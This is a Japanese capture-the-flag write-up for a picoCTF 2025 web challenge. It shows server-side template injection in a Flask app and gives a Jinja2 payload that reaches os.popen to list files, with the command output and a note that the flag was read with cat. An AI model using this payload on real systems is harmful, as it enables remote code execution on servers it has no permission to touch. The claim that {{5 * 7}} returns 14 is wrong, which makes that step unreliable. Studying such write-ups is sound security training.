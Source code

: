 #Easy #Web_Exploitation #picoCTF_2025 #browser_webshell_solvable
# Overview
Server Side Template Injectionを利用してRCEの実行
![[Pasted image 20250528090024.png]]

# Server Detail
- Python Flask
	- Formを用いて`HtmlInputElement`内でユーザーインプットを受け取り、その値を`/announce`ルートにPost
	  ![[Screenshot 2025-05-28 at 9.03.10.png]]
	- `/announce`ではPostされた`application/x-www-form-urlencoded`値をHTMLに表示する
	  ![[Screenshot 2025-05-28 at 9.03.23.png]]

# How to Capture the flag
Easy問題であるためflagの取得はシンプルである

1. サーバー側がServer Side Template Injectionに対応しているか調べる
   フレームワークがFlaskであれば、`{{5 * 7}}`は結果として`14`が返ってくる
   他のフレームワークでは`{{}}`などが異なる
2. RCEの実行
   直で`import`などを実行しようとしたが、Internal Server Errorを吐いたため以下のように実行した
   
	`{{request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read()}}`
	
	これでスクリプトが動いているディレクトリの中身を見れる、以下実行結果
	`total 12K drwxr-xr-x 1 root root 25 May 27 23:28 . drwxr-xr-x 1 root root 23 May 27 23:28 .. drwxr-xr-x 2 root root 32 May 27 23:28 __pycache__ -rwxr-xr-x 1 root root 1.3K Mar 6 03:27 app.py -rw-r--r-- 1 root root 58 Mar 6 19:44 flag -rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt`
	
3. フラグを掴む
   どうやら`./flag`というファイルがあるみたいなので`cat flag`をしてみる
   Gotcha!
   フラグが来ました
![[Screenshot 2025-05-28 at 9.04.16.png]]   
   